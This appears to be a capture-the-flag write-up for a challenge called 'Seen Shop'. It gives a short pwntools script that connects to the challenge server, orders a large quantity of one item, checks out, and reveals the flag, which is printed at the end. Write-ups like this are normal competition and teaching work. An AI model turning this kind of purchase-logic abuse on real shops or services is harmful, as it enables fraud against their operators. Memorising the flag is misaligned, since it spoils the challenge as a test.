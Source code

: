 # Seen Shop
Solved by: @w6rstaimn

### Questions:
Could you buy me a few Sekke's?

### Solution:
Here is the solution script:
```python
from pwn import *


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

HOST, PORT = "164.92.176.247", 9000
io = remote(HOST, PORT)

def add_to_basket(item, quantity):
    io.sendlineafter(b"Enter your choice: ", b"1")
    io.sendlineafter(b"Enter item number to add (1-7): ", str(item).encode())
    io.sendlineafter(b"Enter quantity: ", str(quantity).encode())

def checkout():
    io.sendlineafter(b"Enter your choice: ", b"2")

add_to_basket(7, 100)
checkout()

io.recv()
io.interactive()
```

**Flag:** `FMCTF{61346013e4b1e77a2f1b3675abc62c62}`

